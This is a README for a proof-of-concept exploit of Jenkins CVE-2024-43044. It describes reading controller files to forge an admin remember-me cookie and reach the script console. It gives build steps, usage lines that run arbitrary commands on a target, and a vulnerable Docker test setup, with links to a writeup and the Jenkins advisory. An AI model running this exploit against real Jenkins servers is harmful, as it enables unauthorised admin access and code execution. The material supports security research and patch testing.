

## Intro
This is an exploit for CVE-2024-43044, an arbitrary file read that allows an agent to fetch files from the controller.

The exploit will use the vulnerability to read files to forge a remember-me cookie for an admin account and gain access to
Jenkins scripting engine.

Check out the full writeup at https://blog.convisoappsec.com/en/analysis-of-cve-2024-43044/

## Building the exploit
```
mvn package
```

## Running the exploit

```
Exploit Usages:
    java -jar exploit.jar mode_secret <jenkinsUrl> <nodeName> <nodeSecretKey>
    java -jar exploit.jar mode_attach <jenkinsUrl> <cmd>
    java -jar exploit.jar mode_attach <cmd>
```


## Testing 

You can test it in vulnerable version using docker:

```
docker run -p 8080:8080 -p 50000:50000 --restart=on-failure jenkins/jenkins:2.441-jdk17
```

Once you have a jenkins runnning, setup an agent.

The controller/agent connection can be either default (using url, nodename, secret) or via SSH.

## Demonstration

.


## References

https://www.jenkins.io/security/advisory/2024-08-07/
